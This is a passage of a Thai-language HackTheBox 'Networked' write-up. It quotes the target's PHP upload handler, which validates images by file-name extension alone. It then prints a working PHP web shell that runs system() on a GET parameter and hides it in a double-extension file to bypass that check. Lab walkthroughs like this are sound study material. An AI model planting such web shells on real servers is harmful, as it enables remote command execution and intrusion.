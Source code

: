 ```php
    $valid = false;
    foreach ($validext as $vext) {
      if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
        $valid = true;
      }
    }

    if (!($valid)) {
      echo "<p>Invalid image file</p>";
      displayform();
      exit;
    }
    $name = str_replace('.','_',$_SERVER['REMOTE_ADDR']).'.'.$ext;

    $success = move_uploaded_file($myFile["tmp_name"], UPLOAD_DIR . $name);
    if (!$success) {
        echo "<p>Unable to save file.</p>";
        exit;
    }
    echo "<p>file uploaded, refresh gallery</p>";

    // set proper permissions on the new file
    chmod(UPLOAD_DIR . $name, 0644);
  }
} else {
  displayform();
}
?>

```
![[Challenge/HTB Challenge/Networked/IMG/004.png]]

เมื่อลองทดสอบ upload ภาพของเราจะถูกแสดงอยู่ภายใต้ photos.php 

![[Challenge/HTB Challenge/Networked/IMG/005.png]]

# Shell as apache 
## upload webshell 

```php
<?php echo "START<br/><br/>\n\n\n"; system($_GET["cmd"]); echo "\n\n\n<br/><br/>END"; ?>
```

รูปด้านล่างเป็นไฟล์ cat.php.jpeg และทำการเพิ่ม php shell ไปในไฟล์
![[Challenge/HTB Challenge/Networked/IMG/006.png]]

จะเห็นได้ว่าเราสามารถ Upload เข้าไปได้ 

![[Challenge/HTB Challenge/Networked/IMG/007.png]]
